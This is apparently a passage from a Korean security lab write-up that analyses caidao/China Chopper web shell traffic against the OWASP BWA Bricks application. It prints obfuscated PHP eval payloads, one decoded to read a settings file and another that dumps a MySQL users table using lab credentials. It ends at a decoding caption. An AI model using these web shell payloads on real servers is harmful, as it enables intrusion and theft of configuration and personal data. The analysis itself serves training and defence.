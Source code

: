 

      koromoon=array_map("ass"."ert",array("ev"."Al(\"\\\$xx%3D\\\"Ba"."SE6"."4_dEc".
      "OdE\\\";@ev"."al(\\\$xx('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZ
      V9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1l
      KDApO307ZWNobygiWEBZIik7JEY9Ii9vd2FzcGJ3YS9vd2FzcGJyaWNrcy1zdm4vTG9jYWxTZXR0aW5
      ncy5waHAiOyRmcD1AZm9wZW4oJEYsJ3InKTtpZihAZmdldGMoJGZwKSl7QGZjbG9zZSgkZnApO0ByZW
      FkZmlsZSgkRik7fWVsc2V7ZWNobygnRVJST1I6Ly8gQ2FuIE5vdCBSZWFkJyk7fTtlY2hvKCJYQFkiK
      TtkaWUoKTs%3D'));\");"));

      ↓ Request 패킷 중에서 Base64 문자열 디코딩

      @ini_set("display_errors", "0");
      @set_time_limit(0);
      if (PHP_VERSION < '5.3.0') {
          @set_magic_quotes_runtime(0);
      };
      echo("X@Y");
      $F = "/owaspbwa/owaspbricks-svn/LocalSettings.php";
      $fp = @fopen($F, 'r');
      if (@fgetc($fp)) {
          @fclose($fp);
          @readfile($F);
      } else {
          echo('ERROR:// Can Not Read');
      };
      echo("X@Y");
      die();

2. 개인정보 확인 (Bricks 유저 정보)
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/1ffadb14-b427-496b-b84a-f3e3cd40704c)

< caidao 툴에서 Bricks 유저 정보 확인 >

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/adc8c5e3-b8a5-4c56-97aa-1df0ce68866b)

< Bricks 유저 정보 확인 시 패킷 덤프 >


      koromoon=array_map("ass"."ert",array("ev"."Al(\"\\\$xx%3D\\\"Ba"."SE6"."4_dEc".
      "OdE\\\";@ev"."al(\\\$xx('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZ
      V9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1l
      KDApO307ZWNobygiWEBZIik7JGhzdD0nbG9jYWxob3N0JzskdXNyPSdicmlja3MnOyRwd2Q9J2JyaWN
      rcyc7JGRibj0nYnJpY2tzJzskc3FsPSdTRUxFQ1QgKiBGUk9NIGB1c2Vyc2AgT1JERVIgQlkgMSBERV
      NDIExJTUlUIDAsMjAnOyRUPW15c3FsaV9jb25uZWN0KCRoc3QsJHVzciwkcHdkLCRkYm4pO2lmKG15c
      3FsaV9jb25uZWN0X2Vycm5vKCRUKSl7ZWNobyAiRVJST1I6Ly8gIi5teXNxbGlfY29ubmVjdF9lcnJv
      cigpO31lbHNleyRxPW15c3FsaV9xdWVyeSgkVCwkc3FsKTtpZigkcSl7JGsgPSAwO3doaWxlICgkZml
      uZm8gPSBAbXlzcWxpX2ZldGNoX2ZpZWxkKCRxKSl7ZWNobyAkZmluZm8tPm5hbWUuIlx0fFx0Ijskay
      srO31pZigkaz4wKXtlY2hvICJcclxuIjt3aGlsZSgkcnM9QG15c3FsaV9mZXRjaF9yb3coJHEpKXtmb
      3IoJGM9MDskYzwkazskYysrKXtlY2hvICRyc1skY10uIlx0fFx0Ijt9ZWNobyAiXHJcbiI7fX1lbHNl
      e2VjaG8gICJSZXN1bHRcdHxcdFxyXG5FeGVjdXRlIFN1Y2Nlc3NmdWxseSFcdHxcdFxyXG4iO319ZWx
      zZXtlY2hvICAiUmVzdWx0XHR8XHRcclxuRVJST1I6ICIubXlzcWxpX2Vycm9yKCRUKS4iXHR8XHRccl
      xuIjt9bXlzcWxpX2Nsb3NlKCRUKTt9O2VjaG8oIlhAWSIpO2RpZSgpOw%3D%3D'));\");"));

      ↓ Request 패킷 중에서 Base64 문자열 디코딩
